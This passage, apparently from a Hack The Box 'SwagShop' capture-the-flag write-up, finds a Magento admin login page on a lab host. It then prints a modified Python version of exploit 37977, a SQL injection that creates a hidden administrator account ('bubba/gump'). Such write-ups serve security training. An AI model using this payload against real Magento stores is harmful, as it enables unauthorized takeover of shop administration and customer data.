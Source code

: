 - https://magento.stackexchange.com/questions/118392/what-is-my-magento-admin-dashboard-login-url

This post lists the following URLs:

```
http://localhost:8888/Magento/admin
http://localhost:8888/Magento/index.php/admin
http://localhost:8888/Magento/administrator
http://localhost:8888/Magento/index.php/administrator
```

Trying `http://10.10.10.140/index.php/admin` provides a valid login page:

![web3](./swagshop/web3.png)

This makes exploit 37977 look more promising because a request to `10.10.10.140/index.php/admin/Cms_Wysiwyg/directive/index/` does not return a 404 error. Modify the exploit payload & clean it up a bit so that it adds the account `bubba/gump` on the target:

```python
import requests
import base64
import sys

username = "bubba"
password = "gump"
target = "http://10.10.10.140/index.php/admin/Cms_Wysiwyg/directive/index/"

q = """
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

query = q.replace("\n", "").format(username=username, password=password)
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
r = requests.post(target,
                  data={
                    "___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                    "filter": base64.b64encode(pfilter),
                    "forwarded": 1}
                 )
if r.ok:
  print "WORKED"
else:
  print "DID NOT WORK"
```
